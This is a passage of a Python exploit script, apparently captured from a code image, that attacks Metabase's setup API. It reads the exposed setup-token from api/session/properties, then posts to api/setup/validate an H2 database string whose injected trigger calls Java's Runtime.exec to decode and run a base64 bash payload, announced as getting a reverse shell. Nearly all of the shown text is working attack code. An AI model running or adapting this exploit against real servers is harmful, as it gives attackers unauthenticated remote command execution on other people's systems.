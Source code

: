 ```python

# Step 3: Append spaces to "shell" based on the count of "=" characters
modified_text = original_text + ' ' * equals_count

# Step 4: Encode the modified text to base64 again
final_base64_encoded = base64.b64encode(modified_text.encode()).decode()



# Send a GET request to the URL
response2 = requests.get(url + "api/session/properties")

# Check if the request was successful (status code 200)
if response2.status_code == 200:
    # Parse the JSON response
    data2 = response2.json()

    # Extract the value associated with "setup-token"
    setup_token = data2.get("setup-token")

    if setup_token:
        token = setup_token
    else:
        print("No 'setup-token' found in the response.")
else:
    print("Failed to retrieve data. Status Code:", response2.status_code)

headers = {
    "Content-Type": "application/json",
}

data = {
    "token": token,
    "details": {
        "details": {
            "db": "zip:/app/metabase.jar!/sample-database.db;TRACE_LEVEL_SYSTEM_OUT=0\\;CREATE TRIGGER " + rstr + " BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo," + final_base64_encoded + "}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": False,
            "ssl": True
        },
        "engine": "h2",
        "name": rnb
    }
}

# Convert the data dictionary to a JSON string
json_data = json.dumps(data)

session = requests.Session()

print("[+] get reverse shell")

revshell = session.post(url + "api/setup/validate" , headers=headers, data=json_data)
```
